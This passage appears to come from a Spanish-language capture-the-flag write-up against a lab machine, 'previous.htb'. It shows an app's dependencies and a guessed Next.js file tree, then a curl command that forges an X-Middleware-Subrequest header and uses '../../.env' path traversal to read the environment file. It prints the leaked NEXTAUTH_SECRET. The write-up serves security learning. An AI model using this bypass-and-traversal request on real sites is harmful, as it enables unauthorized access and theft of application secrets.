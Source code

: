 ```
    "postcss": "^8.5.3",
    "react": "^18.2.0",
    "react-dom": "^18.2.0",
    "tailwindcss": "^4.1.3"
  },
  "devDependencies": {
    "@types/node": "22.14.0",
    "@types/react": "19.1.0",
    "typescript": "5.8.3"
  }
}
```

Vemos que esta funcionando, si buscamos un poco la estructura de archivos que puede tener este directorio para ir probando archivos veremos algo parecido a esto:

```
/
├── app/                    # Directorio principal (App Router)
│   ├── api/               # Endpoints de API
│   │   └── download/      # Tu endpoint vulnerable
│   │       └── route.js   # route.js | route.ts
│   ├── admin/             # Página de administración
│   │   └── page.js        # page.js | page.tsx
│   ├── globals.css        # Estilos globales
│   └── layout.js          # Layout principal
├── pages/                 # (Legacy - Pages Router)
│   ├── api/              
│   │   └── auth/
│   │       └── [...nextauth].js
│   └── admin.js
├── lib/                   # Utilidades y configuraciones
│   ├── auth.js           # Configuración de NextAuth
│   └── db.js             # Conexión a base de datos
├── components/           # Componentes React
├── public/              # Archivos estáticos
├── .env                 # Variables de entorno
├── .env.local           # Variables locales
├── package.json
└── next.config.js
```

Si probamos con la mayoria de archivos algunos iran y otros no, pero si probamos con `.env` veremos esto:

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../.env"
```

Info:

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

